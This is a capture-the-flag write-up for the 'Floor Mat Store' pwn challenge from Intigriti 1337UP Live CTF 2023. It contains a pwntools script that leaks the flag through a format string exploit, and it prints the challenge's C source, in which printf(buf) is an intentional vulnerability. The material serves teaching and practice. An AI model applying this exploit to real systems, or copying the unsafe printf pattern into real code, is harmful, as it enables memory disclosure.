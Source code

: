 ```yaml
---
name: Floor Mat Store (2023)
event: Intigriti 1337UP Live CTF 2023
category: Pwn
description: Writeup for Floor Mat Store (Pwn) - Intigriti 1337UP Live CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Floor Mat Store

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Zu32BHwH-sA/0.jpg)](https://youtu.be/Zu32BHwH-sA "Floor mats: Format string exploit")

## Description

> Welcome to the Floor Mat store! It's kind of like heaven.. for mats

## Solution

Watch video for full solution (format string exploit), but here's a solve script (note the index will vary from local/remote, but you can just send `%p * 100` or something instead).

{% code overflow="wrap" %}
```python
from pwn import *

# Connect to server
io = process('./floormats')

flag = ''

io.sendlineafter(b'Enter your choice:\n', b'6')
io.sendlineafter(b'Please enter your shipping address:\n',
                 b'%18$p %19$p %20$p %21$p')
io.recvuntil(b'Your floor mat will be shipped to:\n\n')

response = io.recv(1000)

# Split response by spaces
for i, p in enumerate(response.split(b' ')):
    try:
        if not b'nil' in p:
            try:
                # Decode, reverse endianess and print
                decoded = unhex(p.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(i) + ": " + str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException as e:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
{% endcode %}

Running the script leaks the flag!

Flag:`INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_pr1n7f}`

## Bonus: source code

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    char *mats[] = {
        "1. Cozy Carpet Mat - $10",
        "2. Wooden Plank Mat - $15",
        "3. Fuzzy Shag Mat - $20",
        "4. Rubberized Mat - $12",
        "5. Luxury Velvet Mat - $25",
        "6. Mysterious Flag Mat - $1337"
    };

    char buf[128];
    char flag[64];
    char *flag_ptr = flag;

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) {
        printf("You have a flag.txt, right??\n");
        exit(0);
    }

    puts("Welcome to the Floor Mat store! It's kind of like heaven.. for mats.\n\nPlease choose from our currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n");

    printf("Please select a floor mat:\n\n");
    for (int i = 0; i < 5; i++) {
        printf("%s\n", mats[i]);
    }

    int choice;
    printf("\nEnter your choice:\n");
    scanf("%d", &choice);

    if (choice < 1 || choice > 6) {
        printf("Invalid choice!\n\n");
        exit(1);
    }

    int matIndex = choice - 1;

    while (getchar() != '\n');

    if (matIndex == 5) {
        fgets(flag, sizeof(flag), file);
    }

    printf("\nPlease enter your shipping address:\n");

    fgets(buf, sizeof(buf), stdin);

    printf("\nYour floor mat will be shipped to:\n\n");

    printf(buf);

    return 0;
}
```
{% endcode %}
